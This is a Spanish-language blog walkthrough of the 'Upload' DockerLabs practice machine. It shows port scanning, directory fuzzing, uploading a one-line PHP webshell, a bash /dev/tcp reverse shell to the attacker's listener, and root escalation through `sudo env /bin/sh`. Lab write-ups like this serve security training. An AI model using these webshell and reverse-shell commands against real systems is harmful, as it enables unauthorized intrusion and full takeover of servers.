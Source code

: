 ```yaml
---
layout: post
title: "Upload"
date: 2024-06-29 12:20:23
category: sample
vm: dockerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Upload </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/upload/host.png){:.margin}

**1\.** Descubrimos puertos y servicios de la maquina.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/upload/nmap.png){:.margin}

**2\.** En la web tenemos una subida de archivos.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/upload/80.png){:.margin}

**3\.** Hago fuzzing de directorios y ficheros en la web.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directoy-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/dockerlabs/upload/gobuster.png){:.margin}

**4\.** En el php tenemos la misma subida de archivos, y en uploads supongo que se almacena todo lo subido.

`http://172.17.0.2/upload.php`

`http://172.17.0.2/uploads/`

![img](/notas/public/img/dockerlabs/upload/uploadphp.png){:.margin}
![img](/notas/public/img/dockerlabs/upload/upload.png){:.margin}

**5\.** Creo un php para subirlo y obtener una webshell, nuestro php lo encontramos en uploads.

`echo '<?php system($_GET["cmd"]);?>' > shell.php`

![img](/notas/public/img/dockerlabs/upload/shellphp.png){:.margin}
![img](/notas/public/img/dockerlabs/upload/shellupload.png){:.margin}
![img](/notas/public/img/dockerlabs/upload/uploads.png){:.margin}

**6\.** Me pongo en escucha con nc para recibir la reverse shell.

`nc -nlvp 4000`

`http://172.17.0.2/uploads/shell.php?cmd= bash -c "bash -i >%26 /dev/tcp/192.168.18.8/4000 0>%261"`

![img](/notas/public/img/dockerlabs/upload/80reverse.png){:.margin}
![img](/notas/public/img/dockerlabs/upload/ncok.png){:.margin}

**7\.** Revisando los permisos sudo, tengo este binario que puedo ejecutarlo como root.

`sudo -l`

![img](/notas/public/img/dockerlabs/upload/sudol.png){:.margin}

**8\.** Escalando privilegios a root, busco en [gtfobins](https://gtfobins.github.io/gtfobins/env/#sudo) sobre el binario.

`sudo env /bin/sh`

![img](/notas/public/img/dockerlabs/upload/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>